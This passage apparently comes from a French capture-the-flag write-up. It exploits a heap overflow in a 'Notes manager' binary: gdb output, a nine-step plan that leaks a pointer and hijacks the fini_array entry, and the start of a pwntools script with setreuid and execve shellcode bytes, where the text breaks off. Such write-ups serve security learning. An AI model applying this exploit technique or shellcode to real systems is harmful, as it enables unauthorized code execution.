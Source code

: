 ```bash
(gdb) c
Continuing.
[*] Notes manager - 1.0
[*] Type help for the command list
> exit
[*] Goodbye
[*] Notes manager - 1.0
[*] Type help for the command list
[Inferior 1 (process 11993) exited with code 014]
```

On observe qu'après le message `Goodbye` par défaut la fonction de bienvenue est effectivement affichée ! Success !

## Hammer time

Un readme laissé dans le dossier nous indique de faire l'exploitation en remote :

> Start this level with socat 'socat TCP4-listen:53121,reuseaddr,fork EXEC:./level2' and use netcat or whatever to communicate with it.

Ce sera une petite contrainte supplémentaire peut génante : socat se chargeant de rediriger les entrées / sorties du programme on peut donc utiliser un shellcode classique qui lance simplement un shell.

Maintenant voici le déroulement complet de mon code d'exploitation :

1. Crée une note 0 vide

2. Créé une note 1 vide

3. Ecrit dans la note 0 jusqu'à ce que le contenu du slot 1 (taille de 64 + adresse mémoire) y apparaisse (`memcpy` n'ajoute pas de octet NULL terminal donc les données seront simplement concaténées)

4. De cette manière on récupère l'adresse du `char *` de la note 1

5. On recommence le débordement sur la note 0 mais cette fois pour que le pointeur de la note 1 corresponde à `__do_global_dtors_aux_fini_array_entry`

6. On écrit dans la note 1 donc dans `__do_global_dtors_aux_fini_array_entry`. Ce qu'on écrit c'est l'adresse du pointeur de la note 1 que l'on a fuité

7. On rétablit la mémoire initiale du programme en écrasant l'adresse du pointeur de la note 1 par l'adresse qui avait été originalement allouée

8. On écrit dans la note 1 pour y placer notre shellcode car on connait l'adresse et on sait que la mémoire est exécutable

9. On appelle la commande `exit` ce qui appellera l'adresse de notre shellcode référencé dans `__do_global_dtors_aux_fini_array_entry`

Mon programme d'exploitation se base sur `pwntools` :

```python
from pwn import *
from struct import unpack, pack

setreuid_level2 = (
    b"\x31\xc0"          # xor    eax,eax
    b"\x31\xdb"          # xor    ebx,ebx
    b"\x66\xbb\xea\x03"  # mov    bx,0x3ea
    b"\x89\xd9"          # mov    ecx,ebx
    b"\xb0\x46"          # mov    al,0x46
    b"\xcd\x80"          # int    0x80
)

execve_bash = (
  # shellcode by Marco Ivaldi without setreuid 0
  # https://www.exploit-db.com/shellcodes/13458
  b"\xeb\x1d"
```